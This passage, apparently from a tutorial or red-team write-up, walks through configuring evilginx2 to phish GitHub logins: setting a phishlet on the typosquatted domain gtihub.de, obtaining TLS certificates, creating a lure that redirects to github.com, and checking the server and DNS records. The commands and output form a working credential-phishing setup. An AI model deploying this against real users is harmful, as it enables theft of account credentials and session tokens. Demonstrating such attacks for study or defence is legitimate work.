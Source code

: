 Subsequently, the phishlet is set and enabled. A phishlet, fundamentally, is a YAML file that's been specially tailored to capture data inputted into the fields of the website it was designed for. It is instrumental in website spoofing as it creates a facsimile of the legitimate website. Additionally, evilginx2 automatically generates a free TLS certificate via Let's Encrypt's API for the domains:
```
: phishlets hostname github gtihub.de
[14:07:42] [inf] phishlet ’github’ hostname set to: gtihub.de
[14:07:42] [inf] disabled phishlet ’github’

: phishlets enable github
[14:08:23] [inf] enabled phishlet ’github’
[14:08:23] [inf] setting up certificates for phishlet ’github’...
[14:08:23] [war] failed to load certificate files for phishlet ’github’, domain ’gtihub.de’: open /root/.evilginx/crt/gtihub.de/github.crt: no such file or directory
[14:08:23] [inf] requesting SSL/TLS certificates from LetsEncrypt...
[14:08:39] [+++] successfully set up SSL/TLS certificates for domains: [gtihub.de api.gtihub.de github.gtihub.de]
```

To conclude, a lure is created and the URL, to which the target will be redirected following a successful login, is set to the authentic github.com website:
```
: lures create github
[14:13:53] [inf] created lure with ID: 0

: lures edit 0 redirect_url https://www.github.com
[14:14:06] [inf] redirect_url = 'https://www.github.com'
```


### Quality Assurance

In order to ensure that the previous steps have been properly executed, they can each be individually verified before the actual MITM attack is launched.

To confirm that the web server is functioning appropriately on the VPS, it can either be checked directly on the server using lsof or by conducting a port scan using Netcat from a separate system:
```
root@vps:~# lsof -i :443
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
evilginx 6271 root 9u IPv6 110197 0t0 TCP *:https (LISTEN)
```
```
z@main ~ % nc -zv gtihub.de 443
Connection to gtihub.de port 443 [tcp/https] succeeded!
```

Similarly, the configured DNS can be validated by executing a name lookup and reviewing the records in the answer section. In this instance, the DNS tool `dig` is utilized to query from an external DNS server --- specifically Quad9's security and privacy-centric DNS server `9.9.9.9`. This will display only the A record of the apex domain and the CNAME records of the two subsequent subdomains:
```
root@vps:~# dig @9.9.9.9 A +noall +answer gtihub.de
gtihub.de.              3600       IN      A       193.30.121.40

root@vps:~# dig @9.9.9.9 CNAME +noall +answer api.gtihub.de
api.gtihub.de.          3600       IN      CNAME   gtihub.de.

root@vps:~# dig @9.9.9.9 CNAME +noall +answer github.gtihub.de
github.gtihub.de.       3600       IN      CNAME   gtihub.de.
```
